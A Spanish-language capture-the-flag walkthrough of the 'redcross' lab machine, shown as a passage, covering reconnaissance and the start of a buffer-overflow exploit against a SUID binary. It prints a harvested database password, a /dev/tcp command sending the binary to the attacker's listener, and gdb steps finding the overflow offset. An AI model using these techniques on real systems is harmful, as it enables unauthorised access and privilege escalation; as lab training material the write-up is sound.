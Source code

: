 ----------------------------------
# Part 5: Dentro al sistema. Explotación de binarios

En esa misma ruta hay un users.txt con las creds: "$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");"
Pero por ahora no valen para nada. Subimos nuestro [script de reconocimiento](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh):
- usuarios: root, penelope (nosotros somos www-data)  
- SUIDS -> /opt/iptctl/iptctl  
- root ejecuta /root/bin/redcrxss.py  
- El sistema es Little endian 64 bits  

```console
www-data@redcross:/tmp$ /opt/iptctl/iptctl show 10.10.14.12
DEBUG: All checks passed... Executing iptables
ERR: Function not available!
www-data@redcross:/tmp$ file /opt/iptctl/iptctl
ELF 64-bit LSB executable, x86-64, version
```
Como es un binario tocaría traernoslo.
```console
└─$ sudo nc -nlvp 666 > iptctl
www-data@redcross:/tmp$ cat < /opt/iptctl/iptctl > /dev/tcp/10.10.14.12/666
```
Si le hacemos un md5sum a ambos binarios (el que hemos traido y el original) vemos que los hashes son iguales por lo que no ha sufrido cambios en 
el camino
Hay una funcion **isValidAction** donde le pasamos la action con el parámetro -i y lo mete en un buffer de 10 caracteres ¿Y si hay más?
```console
└─$ ./iptctl  -i
Entering interactive mode
Action(allow|restrict|show): allowwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwww
IP address: 127.0.0.1
zsh: segmentation fault  ./iptctl -i
```
Error de segmentación, es decir buffer overflow. El problema lo causa fgets en la función de interactive ya que intenta meter algo en el buffer que 
es mas grande que él.

Vamos primero a mirar las protecciones del binario:  
```console
www-data@redcross:/tmp$ for i in $(seq 1 20); do ldd /opt/iptctl/iptctl | grep libc | awk 'NF{print $NF}'; done
# Da cada vez una distinta asi que hay aleatorizacion de las direcciones de memoria

└─$ gdb ./iptctl
gef➤  checksec 
# Está NX activado así que no podemos hacer un shellcode buffer overflow porque no ejecutara la pila
# En cambio PIE está desactivado por lo que podemos aprovechar funciones existentes como execvp y setuid
```
Luego a analizar su comportamiento a bajo nivel:  
```console
gef➤  pattern create 50
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
gef➤  r -i   # Correr en modo interactivo
Action(allow|restrict|show): allowaaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
-------------------------------------------------------
$rsp   : 0x007fffffffddf8  →  "aaaeaaaaaaafaaaaaaaga\n"
$rbp   : 0x6161616164616161 ("aaadaaaa"?)
-------------------------------------------------------
gef➤  pattern offset $rsp
[+] Found at offset 29 (little-endian search) likely
```
